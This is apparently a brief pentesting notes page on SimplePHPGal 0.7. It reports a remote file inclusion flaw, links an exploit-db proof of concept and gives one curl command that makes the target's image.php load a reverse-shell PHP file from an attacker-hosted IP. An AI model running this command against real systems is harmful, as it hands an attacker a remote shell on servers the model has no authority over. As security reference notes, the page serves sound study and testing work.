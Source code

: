 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# SimplePHPGal

There is a RFI vulnerability in version `0.7` with an available [PoC](https://www.exploit-db.com/exploits/48424):

{% code overflow="wrap" %}
```bash
$ curl -s "http://<target-IP>/image.php?img=http://<attacker-IP>/revshell.php"
```
{% endcode %}
